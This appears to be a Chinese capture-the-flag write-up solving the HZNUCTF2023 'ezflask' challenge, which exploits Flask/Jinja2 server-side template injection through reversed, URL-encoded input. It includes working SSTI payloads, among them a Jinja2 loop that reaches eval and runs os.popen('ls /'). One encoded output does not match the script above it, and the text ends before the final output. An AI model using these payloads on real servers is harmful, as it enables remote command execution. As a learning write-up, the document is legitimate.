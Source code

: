 ## HZNUCTF2023初赛

### WEB

#### ezflask

登录看到这样的提示，说明需要get传参

<img src="https://s2.loli.net/2023/03/26/7rj5KJdemRUOD9L.png" alt="image-20230326215926968" style="zoom:33%;" />

然后我们传一个123过去：

![image-20230326220057174](https://s2.loli.net/2023/03/26/bvxH6uftKaZn3GN.png)

发现被颠倒过来了，我们结合题目flask，推断这可能是一个`flask ssti`模板注入漏洞

我们先构造 `{{3*4}}` 反过来 `}}4*3{{`

<img src="https://s2.loli.net/2023/03/26/FXj6xGwQPzLE7Nk.png" alt="image-20230326220305580" style="zoom:33%;" />

发现成功被执行，存在ssti漏洞

我们先使用 

```python
{{''.__class__.__bases__[0].__subclasses__()}}
```

查看所有可以使用的类，代码：

```python
import urllib.parse
str = "{{''.__class__}}"
print(urllib.parse.quote(str[::-1]))

输出：
%7D%7D%29%28__sessalcbus__.%5D0%5B__sesab__.__ssalc__.%27%27%7B%7B
```

![image-20230326220700394](https://s2.loli.net/2023/03/26/ANLRqhlYVs46TBg.png)

发现成功被执行，成功回显出来

然后我们可以使用 `jinja2`的条件语句的写法，获得可以命令执行的类

```python
import urllib.parse

str = """{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("ls /").read()') }}
    {% endif %}    
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}""" # 通过遍历，拿到代码执行函数eval，进而实现操作

print(urllib.parse.quote(str[::-1]))

输出：
```